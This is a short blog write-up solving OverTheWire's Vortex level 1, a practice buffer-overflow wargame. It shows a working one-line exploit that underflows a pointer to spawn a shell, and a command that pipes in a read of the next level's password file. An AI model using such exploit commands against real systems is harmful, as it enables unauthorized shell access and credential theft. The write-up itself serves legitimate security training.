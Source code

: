 Title: overthewire, vortex: level 1
Date: 2011/10/07 23:55
Author: Ken Ko
Tags: overthewire.org, buffer overflow

The code:

[codebox 1]


So normally we want to overflow in a positive direction, but here we have a pointer value that we want to manipulate which is allocated <em>after</em> our overflow buffer. Good thing the switch gives us a way to decrement that pointer, eh?

Since ptr is in the middle of the 512 size buffer, let's give this a try:

<code>
vortex1@games /vortex $ python -c 'print "\\" * 257 + "\xca!"' | /vortex/level1
sh-3.2$ exit
vortex1@games /vortex $
</code>

However, because that doesn't give us a legit shell, let's pass in the cat request along with the exploit. 


<code>
cat <(python -c 'print "\\" * 257 + "\xca!"') <(echo cat /etc/vortex_pass/vortex2) | /vortex/level1
</code>

Awesome.
